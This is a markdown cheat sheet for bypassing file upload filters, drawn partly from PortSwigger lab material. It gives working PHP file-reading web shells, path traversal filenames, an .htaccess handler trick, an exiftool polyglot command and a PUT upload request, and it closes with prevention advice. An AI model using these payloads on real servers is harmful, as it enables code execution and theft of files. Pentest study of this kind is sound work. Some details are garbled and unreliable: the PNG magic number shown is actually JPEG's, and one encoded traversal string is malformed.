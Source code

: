 # 

# File Upload Vulnerability

## ByPass Client Side Filterin

1. Turn of JavaScript But Make Sure the Website doesn't require Javascript in order to provide basic functionality.

2. Intercept and modify the incoming page. Using Burpsuite
   
   EX:
   
           1-Intercept on to get This Request 
           2-Right Click and choose -> Do Intercept
           3-Response This request 
           4-Forward
           5-And Delete JS code Filter

3. Send the file directly to the upload point.
   
   Why use the webpage with the filter,when you can send the file directly using a tool. like curl
   
       curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>

4. Edit Content-Type: header to
   
           1-Upload File With Accepted Extention
           2-Intercept This Request 
           3-Edit Content-Type to -> Content-Type:text/x-php or image/png -> would you want
           3-and Edit file Extention to what you want

5. File Upload via Path Traversal 
   
           Content-Disposition: form-data; name="avatar"; filename="../get_f_c.php"
           Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fget_f_c.php"
       
           GET /files/avatars/../get_f_c.php
           GET /files/avatars/..%2get_f_c.php

6. Test them using some uppercase letters
   
         pHp, .pHP5, .PhAr ...

7. using .htaccess file
   
   this file is the file of configration in appache you can add configration on it to accept any extension ike .shell , .test then you should aupload two fils file .htaccess 
   
   First file
   
       Content-Disposition: form-data; name="avatar"; filename=".htaccess"
       Content-Type: text/plain
       AddType application/x-httpd-php .shell
   
   Second flle 
   
       Content-Disposition: form-data; name="avatar"; filename="shell.shell"
       Content-Type: image/png
       <?php echo file_get_contents('/path/to/target/file'); ?>

--- 

## ByPass ServerSide Filtering

1. First You have to perform a lot of testing to build up an idea of what is or is not allowed through the filter.

2. Try All Possible Extention work for The Same Thing You Want https://book.hacktricks.xyz/pentesting-web/file-upload

3. Magic Numbers
   
   see this site To Know Your Extention Magic Number
   
   https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5
   
   https://en.wikipedia.org/wiki/List_of_file_signatures
   
   Use Any hex editor to Edit First bits. Like hexeditor
   
   | .jpg | ff d8 ff e0 |
   | ---- | ----------- |
   | .png | ff d8 ff e0 |
   
   or using exftool using this script
   
       exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
   
   use Command `file filename` to know if the magic Numbers work

4. Execute it before deleteing
   
    Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.
   
   That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.
   
   For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.
   
   These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code. 
   
   EX:
   
   [Lab: Web shell upload via race condition | Web Security Academy](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

5. Outher Vulnerability
   
   ##### Uploading malicious client-side scripts
   
   Although you might not be able to execute scripts on the server, you may still be able to upload scripts for client-side attacks. For example, if you can upload HTML files or SVG images, you can potentially use `<script>` tags to create <u>stored XSS</u> payloads.
   
   If the uploaded file then appears on a page that is visited by other users, their browser will execute the script when it tries to render the page. Note that due to same-origin policy restrictions, these kinds of attacks will only work if the uploaded file is served from the same origin to which you upload it.
   
   ##### Exploiting vulnerabilities in the parsing of uploaded files
   
   If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. For example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for <u>XXE injection</u> attacks.
   
   ### Uploading files using PUT
   
   It's worth noting that some web servers may be configured to support `PUT` requests. If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.
   
       PUT /images/exploit.php HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-httpd-php
       Content-Length: 49
       <?php echo file_get_contents('/path/to/file'); ?>
   
   Tip
   
   You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.

## How to prevent file upload vulnerabilities

Allowing users to upload files is commonplace and doesn't have to be dangerous as long as you take the right precautions. In general, the most effective way to protect your own websites from these vulnerabilities is to implement all of the following practices:

- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload. 

- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).

-  Rename uploaded files to avoid collisions that may cause existing files to be overwritten. 

-  Do not upload files to the server's permanent filesystem until they have been fully validated. 

-  As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms. 
